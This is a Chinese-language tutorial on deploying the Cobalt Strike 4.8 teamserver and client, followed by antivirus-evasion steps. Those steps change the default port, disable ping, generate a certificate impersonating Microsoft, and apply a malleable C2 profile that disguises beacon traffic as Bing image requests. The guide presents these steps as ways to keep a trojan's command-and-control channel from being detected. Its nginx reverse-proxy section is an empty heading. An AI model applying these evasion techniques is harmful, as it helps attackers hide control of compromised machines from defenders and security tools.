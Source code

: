 Cobalt Strike基于Java环境开发，所以如果要使用这个工具一定要安装Java环境。（工具的组成为服务端 + 客户端）

Cobalt Strike4.8

### 服务端  
启动Cobalt Strike需要JDK的支持，所以需要安装Java环境，如果服务端是kali，默认安装了java环境  
文件复制进linux服务器  
执行`ls -l` 查看TeamServer跟TeamServerImage是否有执行权限  
如果TeamServer跟TeamServerImage不具备x执行权限，执行如下命令添加执行权限  
`sudo chmod +x teamserver TeamServerImage`  
启动服务端：  
`sudo ./teamserver 192.168.80.146 cspasswd.9`  
这里填本机ip地址跟密码,默认端口为50050  

### 客户端  
windows运行客户端，也需要有JDK环境  
运行cobaltstrike-client.cmd文件  
输入对应服务端上设置的Host Port User Password  

![alt text](image/image-1.png)  
Alias：输入主机别名或使用默认值，不能为空或以*开头。  
Host：指定团队服务器的IP地址，不能为空  
Port：服务器的端口（默认为50050）  
User：你在团队服务器上的昵称，不能为空。  
Password：连接到服务器的密码  

第一次用连接到此团队服务器, 会弹出确认指纹  
Cobalt Strike将询问你是否识别此团队服务器的SHA256哈希,指纹校验的主要作用是防篡改  
点击是,连接登录到服务端并打开客户端用户界面

![alt text](image/image-2.png)  

![alt text](image/image-4.png)  

如果连接不上，查看服务端防火墙是否开启默认端口或者指定的端口  

Cobalt Strike将会记住这个SHA256哈希值,以便将来连接.可以通过Cobalt Strike -> Preferences -> Fingerprints 来管理这些哈希值。  


## 隐藏特征码-服务端(免杀手法之一)
##### 开启禁Ping动作:  
        命令: vim /etc/sysctl.con  
        添加一行: net.ipv4.icmp_echo_ignore_all = 1  
        刷新配置: sysctl -p  

##### 修改CS默认端口:  
        编辑teamserver文件: vim teamserver  
        修改port=50050为其他端口  
        如果有防火墙记得开放规则: ufw allow 19001

##### 修改CS默认证书:    
Cobalt Strike默认证书中含有与cs相关的特征，已经被waf厂商标记烂了，我们要重新生成一个新的证书，这里我们用JDK自带的keytool证书工具来生成新证书 

删除服务端Server目录下的cobaltstrike.store文件:  
`rm -rf cobaltstrike.store`   
利用keytool生成新的一个无特征的证书文件cobaltstrike.store  
    `keytool -keystore cobaltstrike.store -storepass 123456 -keypass 123456 -genkey -keyalg RSA -alias 360.com -dname "CN=Microsoft Windows, OU=MOPR, O=Microsoft Corporation, L=Redmond, ST=Washington, C=US"`  
    -keystore 生成的store名  
    -storepass 指定更改密钥库的储存口令  
    -keypass 指定更改条目的密钥口令  
    -genkey -keyalg RSA 指定算法  
    -alias 自定义别名  
    -dname 指定所有者信息  

证书生成完毕后，查看一下是否是新的证书内容
查看cs证书文件内容：`keytool -list -v -keystore cobaltstrike.store`   

修改teamserver文件里面的keyname.store,把里面的key文件名keyStore和key密码keyStorePassword改了  

同时建议修改teamserver中的keytool，防止证书被删除后自动生成默认证书。  
`keytool -keystore cobaltstrike.store -storepass 123456 -keypass 123456 -genkey -keyalg RSA -alias 360.com -dname "CN=Microsoft Windows, OU=MOPR, O=Microsoft Corporation, L=Redmond, ST=Washington, C=US`   

##### C2profile混淆流量:   
https://github.com/threatexpress/malleable-c2
编辑c2.profile的内容如下，可自由修改部分内容:`vim c2.profile`    
        http-get {
            set uri "/image/";
            client {
                header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*l;q=0.8";
                header "Referer" "http://www.bing.com";
                header "Host" "www.bing.com";
                header "Pragma" "no-cache";
                header "Cache-Control" "no-cache";
                metadata {
                    netbios;
                    append ".jpg";
                    uri-append;
                }
            }

            server {
                header "Content-Type" "img/jpg";
                header "Server" "Microsoft-IIS/6.0";
                header "X-Powered-By" "ASP.NET";
                output {
                    base64;
                    print;
                }
            }
        }

        http-post {
            set uri "/email/";
            client {
                header "Content-Type" "application/octet-stream";
                header "Referer" "http://www.google.com";
                header "Host" "www.bing.com";
                header "Pragma" "no-cache";
                header "Cache-Control" "no-cache";
                id {
                    netbiosu;
                    append ".png";
                    uri-append;
                }
                output {
                    base64;
                    print;
                }
            }
            server {
                header "Content-Type" "img/jpg";
                header "Server" "Microsoft-IIS/6.0";
                header "X-Powered-By" "ASP.NET";
                output {
                    base64;
                    print;
                }
            }
        }

然后使用c2profile方式启动teamserver
        sudo ./teamserver 192.168.2.96 passwd332 c2profile

开启CS的监听，触发木马   
使用wireshark抓取数据包，查看流量特征是否被混淆   
发现请求改成了我们在c2profile中编写的URL、UA等信息时，则修改成功。   

##### nginx反向代理:   




杀毒软件查杀方式：特征码、动态查杀、云查杀  

免杀：隐藏特征码、配置Nginx反向代理  